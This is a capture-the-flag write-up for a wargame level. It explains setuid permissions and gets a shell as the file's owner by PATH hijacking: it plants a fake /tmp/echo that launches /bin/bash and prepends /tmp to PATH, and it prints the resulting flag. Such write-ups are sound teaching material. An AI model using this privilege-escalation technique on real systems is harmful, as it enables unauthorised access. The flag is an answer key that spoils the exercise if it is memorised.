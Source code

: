 `ls -l` <br/>
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

`whoami` <br/>
level03

`groups` <br/>
level03 users

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

How can I make this programm runs getflag ?

`./level03` <br/>
Exploit me

`strings level03` <br/>
...<br/>
/usr/bin/env echo Exploit me<br/>
...<br/>

https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

If we make our fake echo function then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

`echo "/bin/bash" > /tmp/echo` <br/>
Create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission

`chmod 777 /tmp/echo` <br/>
otherwise the file is `-rw-rw-r-- 1 level03 level03 10 Sep 22 02:19 /tmp/echo` and flag03 can't execute it


`export PATH=/tmp:$PATH` <br/>
We added tmp directory at the start of the path. Do command `env` and see path went from: <br/>
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games<br/>
to <br/>
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games


`./level03`

You are now flag3 because you "opened" a new shell with the rights of flag03

`getflag` gives `qi0maab88jeaj46qoumi7maus`

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

